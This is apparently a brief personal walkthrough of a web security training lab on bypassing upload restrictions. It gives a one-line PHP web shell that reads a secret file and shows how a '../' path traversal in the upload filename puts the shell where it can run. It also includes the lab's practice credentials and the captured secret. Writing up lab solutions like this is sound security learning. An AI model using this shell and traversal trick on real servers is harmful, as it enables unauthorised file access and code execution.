




# file upload web shell upload via path traversal

## This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability].

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/home/carlos/secret'); ?>

save as test.php

---

### step 1

login using userid and password
upload any images and try to upload expolit code file it will not upload
so path traveral come in role
../ it means exit from current director
so upload php file and intercept url
filename="test.php" change to filename="../test.php"
and forword
then
access GET /files/test.php HTTP/1.1
OLBNOvcGpJ8NiYO5k1gFyUSNkpTAVdhV

submit code lab solved

